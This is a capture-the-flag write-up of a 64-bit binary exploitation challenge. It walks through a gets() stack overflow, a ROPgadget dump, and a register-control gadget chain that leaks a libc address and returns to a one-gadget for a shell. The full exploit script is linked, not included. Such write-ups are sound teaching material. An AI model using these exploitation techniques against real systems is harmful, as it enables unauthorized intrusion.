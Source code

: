 ### writeup by p4w@beerPWN team

# INS'HACK 2019 CTF
## gimme-your-shell PWN challnge

This is not the intended solution for this challenge since i used ROP to solve it.
We have a 64-bit <a href="./weak">binary</a> and the libc of the remote server is NOT provided.
Let's start with a little bit of reverse on the binary.
As we can see from the image below the main() function will call the vuln() function.

![alt text](images/main.png)

The assembly of vuln() function show us that dangerous function 'gets()' will be used.

![alt text](images/vuln.png)

As we can see from the man page the gets(*s) function will read until \n or EOF, but there is no control on how many byte it will read and consequently write into *s.

![alt text](images/man_gets.png)

By reading the vuln function we can see that the argument for the gets function will be a variable located into the stack.
So what we expect from this is a stack-buffer overflow.
Let's verify this:

![alt text](images/segfault.png)

Segfault! After 24 bytes we can overwrite the saved ret address.
<br>
Let's also check for the protection on the binary
```
$ checksec ./weak
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
As we can see the binary has no protection at all. So potentially we can also inject a shellcode into the stack and jump on it, but instead of this i managed to do full ROP.
What i want to do to solve this challenge was make a memory-leak, restart execution and then ret2libc address to gain a shell.
So what i did at this point was start to find some gadgets.
```
$ ROPgadget --binary ./weak --depth 40
```

### The problem
As we can see from the dump there are NOT simple gadget like 'pop rdi' to control registers.
```
$ ROPgadget --binary ./weak --depth 40 |grep pop|grep ret
0x0000000000400519 : add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400510 : add byte ptr [rax + 0x39], cl ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400509 : add byte ptr [rax - 0x75], cl ; add eax, 0x20050f ; cmp rax, rbx ; jb 0x400512 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051b : add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050c : add eax, 0x20050f ; cmp rax, rbx ; jb 0x40050f ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050e : add eax, 0x39480020 ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400698 : add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051e : add esp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051d : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050f : and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050c ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069b : clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069a : cmp eax, -1 ; jne 0x40069b ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400512 : cmp eax, ebx ; jb 0x400509 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400699 : cmp rax, -1 ; jne 0x40069c ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400511 : cmp rax, rbx ; jb 0x40050a ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400513 : fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069e : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400514 : jb 0x400507 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069d : jne 0x400698 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400516 : mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400697 : mov eax, dword ptr [rbx] ; cmp rax, -1 ; jne 0x40069e ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050b : mov eax, dword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400510 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400696 : mov rax, qword ptr [rbx] ; cmp rax, -1 ; jne 0x40069f ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050a : mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400511 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400693 : or bh, bh ; ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400507 : or byte ptr [rax], ah ; mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400514 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400522 : pop rbp ; ret
0x0000000000400521 : pop rbx ; pop rbp ; ret
0x0000000000400638 : pop rsp ; and al, 8 ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
0x000000000040069c : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400695 : ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400518 : sti ; add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050d : syscall ; and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050e ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
```
Then i start to search for more complicated gadgets that chained together they will make me get control over rdi register (at least).
The first gadget that i picked was this one:
```
0x0000000000400637 : mov ebx, dword ptr [rsp + 8] ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
```
and this is the second one:
```
0x0000000000400620 : mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12 + rbx*8]
```
With the first one we can basically get control over ebx, rbp, r12, r13, r14, r15 by writing double/quad words into the stack at the correct offsett.<br>
Then we can use the second gadget that end with a call instruction.<br>
Since for now i just want to leak some libc address i'm just interesting on controlling rdi register with some GOT address and then call puts@GOT.
The second gadget make a 'mov edi, r13d' then we need to place leak-addr@GOT into r13 with the first gadget in this way, when we land on the second gadget, the contents of r13 will be placed into rdi.
I also need to make a call on puts() with the second gadget, then i need to set rbx=0 and r12=puts@GOT, and again i can do that with the first gadget.
We just need one more little thing to make all work, look closely at the second gadgets

![alt text](images/second_gdt.png)

after the call instruction we have three instruction
```
000000000040062d         add        rbx, 0x1
0000000000400631         cmp        rbx, rbp
0000000000400634         jne        loc_400620
```
basically it's a loop. To exit from that loop and go over we need to make rbx=rbp, then with the first gadget we need to set ebx=0 and rbp=1.
<br>
Now that we are able to leak we just need restart execution to repeat the buffer-overflow again and this time (after <a href="https://libc.blukat.me/">libc version evaluation</a>) we can overwrite the ret address with one-gadget to gain the shell.
<br>
Getting the flag :)

![alt text](images/flag.png)

You can check the full <a href="./x.py">exploit</a> here.

After the CTF, speaking with the admin i discovered that the intended way for this one was simply to jump on a shellcode since the stack was executable. I didn't manage to do it that way cause i assumed the ASLR was enabled on the remote system, but i was WRONG. Actually the ASLR was disabled and then we can predict where the shellcode will be placed. So i did a mistake but i managed to solve it in another way, and sinceraly I'm happy of that just because I could learn more doing it.
Cheers, p4w ;)

